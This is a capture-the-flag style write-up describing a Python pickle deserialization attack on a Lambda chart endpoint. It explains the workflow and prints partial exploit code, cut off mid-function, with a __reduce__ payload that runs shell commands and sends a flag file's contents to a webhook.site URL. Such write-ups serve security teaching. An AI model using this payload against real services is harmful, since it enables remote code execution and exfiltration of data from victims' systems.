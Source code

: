 <br><hr>

Further inspection of the Lambda function revealed that it accepts chart data in Python's pickle format. This is particularly concerning because Python's pickle module is known for its security vulnerabilities during deserialization. When the data source is compromised, pickle can be exploited to execute arbitrary code during the deserialization process.


### Full Exploit

The exploit code leverages Python's pickle deserialization vulnerability to achieve remote code execution on the Lambda function. Here's a breakdown of how it works:

- The code uses Python's pickle module to create a malicious serialized payload that will execute arbitrary commands when deserialized
- A webhook URL is defined to receive the exfiltrated flag data
- The exploit consists of several key components:
  - A malicious Python class `PickleRCE` that executes shell commands when deserialized 
  - Functions to create and encode the pickled payload in base64
  - Code to send the payload to the Lambda function's API endpoint
  - Error handling and logging functionality

The main workflow:
1. Creates a malicious pickled object that will execute code to read the flag file
2. Encodes the payload in base64 and wraps it in a JSON request
3. Sends the payload to the Lambda function's `/api/chart` endpoint
4. The Lambda deserializes the pickle data, executing our code
5. The flag contents are sent to our webhook URL

Key features:
- Uses Python's standard libraries for HTTP requests and JSON handling
- Includes detailed logging and error handling
- Formats the payload to match the API's expected structure
- Handles both successful and failed exploit attempts

The code demonstrates how pickle deserialization can be exploited to achieve remote code execution in serverless environments when proper input validation is not implemented.

```python
import pickle
import base64
import urllib.request
import json
from datetime import datetime, timedelta

# AWS Credentials obtained from git repository
WEBHOOK_URL = "https://webhook.site/d1709498-fd25-47e0-a84b-feb12f4664aa"

base_url = "http://localhost"

# Malicious Python code to be executed on target
# This code reads the flag file and sends its content to our webhook
rce_code = '''
import json,urllib.request,subprocess;
data=subprocess.check_output(["cat", "flag.txt"]).decode();
urllib.request.urlopen("WEBHOOK_URL",data=data.encode("utf-8"));
'''.replace("\n", "").replace("WEBHOOK_URL", WEBHOOK_URL)

# Pickle exploitation class
class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,(f"python3 -c '{rce_code}'",))

def create_payload():
    """
    Create and encode the pickled payload
```